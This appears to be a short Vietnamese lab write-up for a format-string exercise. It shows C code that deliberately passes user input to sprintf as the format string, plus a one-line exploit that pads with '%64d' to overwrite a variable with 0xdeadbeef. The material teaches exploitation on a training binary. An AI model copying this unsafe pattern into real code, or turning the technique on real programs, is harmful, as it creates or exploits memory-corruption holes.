 # Format zero
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```


Bài này chúng ta sẽ gửi một string có độ dài 64byte `%64d` rồi đến `0xdeadbeef`, cũng tương tự như stack overflow

```
/format0 $(python -c "print '%64d' + '\xef\xbe\xad\xde'")
```

# Phụ lục
## Tổng quan về format string

![Alt text](image.png)

![Alt text](image-1.png)

![Alt text](image-2.png)

![Alt text](image-3.png)

![Alt text](image-4.png)
![Alt text](image-11.png)
![Alt text](image-5.png)
![Alt text](image-6.png)
![Alt text](image-7.png)

![Alt text](image-8.png)
![Alt text](image-9.png)
![Alt text](image-10.png)
